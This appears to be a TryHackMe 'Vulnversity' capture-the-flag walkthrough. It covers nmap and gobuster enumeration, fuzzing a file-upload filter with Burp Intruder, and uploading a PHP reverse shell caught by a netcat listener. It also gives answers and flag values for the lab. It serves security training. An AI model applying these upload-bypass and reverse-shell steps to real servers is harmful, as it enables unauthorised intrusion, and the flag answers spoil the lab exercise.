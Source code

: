 ```yaml
---
title: TryHackMe - Vulnversity
author: 
categories: [TryHackMe]
tags: []
media_subpath: /assets/images/tryhackme/vulnversity/
image:
  path: room_pic.png
---
```



## Overview

![room](room.png)

| Name            | [Vulnversity](https://tryhackme.com/room/vulnversity)                                 |
| ------------    | ------------------------------------------------------------------------------------- |
| Difficulty:     | Easy                                                                                  |
| Tools:          | Nmap, Gobuster, Burpsuite, netcat                                                     |
| Topics:         | Network Enumeration, Web Enumeration, SUID/GUID


## Task 2: Reconnaissance using Nmap

Start with `nmap` scan to get an overview of the target using the `-sV` flag

> -sV: Attempts to determine the version of the services running
{: .prompt-info }

```bash
$ nmap -sV 10.10.36.68
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for ip-10-10-36-68.eu-west-1.compute.internal (10.10.36.68)
Host is up (0.0049s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 02:63:12:1B:49:CD (Unknown)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.67 seconds                                                      
```

We can see ports `21, 22, 139, 445, 3128 and 3333` are open and likely running `Ubuntu` OS

Web servers usually run on port `80` but here, the Apache web server is running on port `3333`. Might be interesting for further investigation

> **Scan the box, how many ports are open?**
  ><details><summary>Click for answer</summary>6</details>

> **What version of the squid proxy is running on the machine?**
  ><details><summary>Click for answer</summary>3.5.12</details>

> **How many ports will nmap scan if the flag -p-400 was used?**
  ><details><summary>Click for answer</summary>400</details>

> **What is the most likely operating system this machine is running?**
  ><details><summary>Click for answer</summary>Ubuntu</details>

> **What port is the web server running on?**
  ><details><summary>Click for answer</summary>3333</details>

> **What is the flag for enabling verbose mode using Nmap?**
  ><details><summary>Click for answer</summary>-v</details>


## Task 3: Locating directories using Gobuster

Seeing the presence of a web server, we'll enumerate the directories using `Gobuster` by providing a wordlist

> On Kali Linux, wordlists are located in `/usr/share/wordlists`
{: .prompt-tip }

```bash
$ gobuster dir -u http://10.10.36.68:3333 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.36.68:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.36.68:3333/images/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.36.68:3333/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.36.68:3333/js/]
/internal             (Status: 301) [Size: 320] [--> http://10.10.36.68:3333/internal/]
Progress: 141063 / 141709 (99.54%)===============================================================
Finished
===============================================================
```

In a browser, explore the URL and the directories found with Gobuster. Navigating to `http://10.10.36.68:3333/internal`, we find an upload form, giving an opportunity to upload a malicious payload

> **What is the directory that has an upload form page?**
  ><details><summary>Click for answer</summary>/internal/</details>


## Task 4: Compromise the Webserver using Burpsuite

Try uploading a `.txt` or `.php` file and it returns a `Extension not allowed` message so the form only accepts certain file extensions 

![Extension not allowed](ext_not_allowed.png)

> **What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.**
  >*<details><summary>Click for answer</summary>.php</details>*

Using `Burpsuite`, we will utilize the `Proxy` and `Intruder` tools to fuzz the upload form to see which extensions it will accept and craft our payload depending on that

1. In the `Proxy` tab, open Burp's browser and turn Intercept on
2. Navigate to `<IP address>/internal` page and upload a file
3. In Burp, you'll see the request being intercepted. Click Action and send it to `Intruder`
4. In the `Intruder` tab, select `Sniper` as the attack type, highlight the `.extension` of your file and add a payload marker §. This is the variable that will be changed in each upload attempt, trying each entry in the `phpext.txt` file
5. In the `Payloads` tab, load `phpext.txt` in the Payload Options section
6. Click Start Attack

> Press `Clear §` to clear existing payload markers before you add your own
{: .prompt-tip }
> Uncheck the URL Encoding option at the bottom or the uploads will encode `.` as `%2e` and all fuzzing attempts will be unsuccessful
{: .prompt-warning }

![Intruder Setup](intruder_setup.png)

![Payload](payload.png)

View the results and check the responses for each file extension. Only `.phtml` has a different file length and a `Success` response. This is the extension we will use for our payload

![Intruder](intruder_success.png)

> **What extension is allowed after running the above exercise?**
  ><details><summary>Click for answer</summary>.phtml</details>

### Getting a Reverse Shell

We will attempt to upload a reverse shell that executes on the target and calls back to us to make a connection

In the reverse shell php file, edit the `$ip` variable and rename the file with a `.phtml` extension

```bash
$ mv php-reverse-shell.php php-reverse-shell.phtml
```

![IP](ip.png)

Start a `netcat` listener to listen for any incoming connections. After uploading and executing the reverse shell, we should see an established connection and a bash prompt where we can enter commands to get the flag

```bash
# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.223.107] from (UNKNOWN) [10.10.36.68] 42146
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:48:00 up  3:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

> **What is the name of the user who manages the webserver?**
  ><details><summary>Click for answer</summary>Bill</details>

> **What is the user flag?**<br>
  ><details><summary>Click for answer</summary>8bd7992fbe8a6ad22a63361004cfcedb</details>

## Task 5: Privilege Escalation



> **On the system, search for all SUID files. Which file stands out?**<br>
  ><details><summary>Click for answer</summary>/bin/systemctl</details>


> **What is the root flag value?**<br>
  ><details><summary>Click for answer</summary>a58ff8579f0a9270368d33a9966c7fd5</details>

